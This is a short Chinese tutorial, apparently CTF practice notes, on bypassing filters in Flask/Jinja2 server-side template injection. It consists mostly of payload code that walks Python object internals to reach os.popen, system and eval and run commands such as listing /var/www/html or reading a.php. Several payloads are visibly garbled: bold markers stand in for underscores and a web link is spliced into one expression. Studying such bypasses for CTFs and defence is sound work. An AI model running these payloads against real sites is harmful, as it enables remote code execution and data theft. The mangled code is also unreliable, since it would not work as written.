 没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1.过滤[]等括号

使用gititem绕过。如原poc {{"".**class**.**bases**[0]}}

绕过后{{"".**class**.**bases**.**getitem**(0)}}

2.过滤了subclasses，拼凑法

原poc{{"".**class**.**bases**[0].**subclasses**()}}

绕过 {{"".**class**.**bases**[0]['**subcla'+'sses**'](https://xz.aliyun.com/t/3679)}}

3.过滤class

使用session

poc {{session['**cla'+'ss**'].**bases**[0].**bases**[0].**bases**[0].**bases**[0].**subclasses**()[118]}}

多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
request['__cl'+'ass__'].__mro__[12]}}
```

4.timeit姿势

可以学习一下  2017 swpu-ctf的一道沙盒python题，

这里不详说了，博大精深，我只意会一二。

```
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)

import platform
print platform.popen('dir').read()
```

5.收藏的一些poc

```
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls  /var/www/html").read()' )

object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')

{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

BUUCTF进行练习：
